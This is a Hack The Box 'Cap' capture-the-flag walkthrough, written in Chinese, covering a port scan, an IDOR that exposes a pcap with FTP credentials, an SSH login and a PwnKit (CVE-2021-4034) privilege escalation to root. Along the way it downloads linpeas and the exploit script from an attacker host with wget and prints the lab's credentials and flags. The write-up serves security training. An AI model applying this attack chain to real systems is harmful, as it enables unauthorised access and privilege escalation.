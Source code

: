 ###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Cap
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.38.131 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.38.131:22
Open 10.129.38.131:21
Open 10.129.38.131:80

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 26 Aug 2024 08:44:41 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

前往port80可以點`security snapshot(5 second PCAP + Analsis)`，可以下載流量，他有網址會變成`http://10.129.38.131/data/1`，可以試試看改成`http://10.129.38.131/data/0`下載pcap

![Cap_1.png](picture/Cap_1.png)


![Cap_2.png](picture/Cap_2.png)

發現帳號密碼`nathan/Buck3tH4TF0RM3!`
```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

ssh登入，可在`/home/nathan`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ ssh nathan@10.129.38.131 

nathan@cap:~$ cat user.txt
89dd895c0bd81d681e0d67893294852a
```

用`linpeas.sh`
```
nathan@cap:/tmp$ wget 10.10.14.55/linpeas.sh
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root之後，在/root得root.txt
```
nathan@cap:/tmp$ wget 10.10.14.55/CVE-2021-4034.py
nathan@cap:/tmp$ python3 CVE-2021-4034.py
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cap:/root# cat root.txt
7288058a0c8fe08a9cc672dd9da02223
```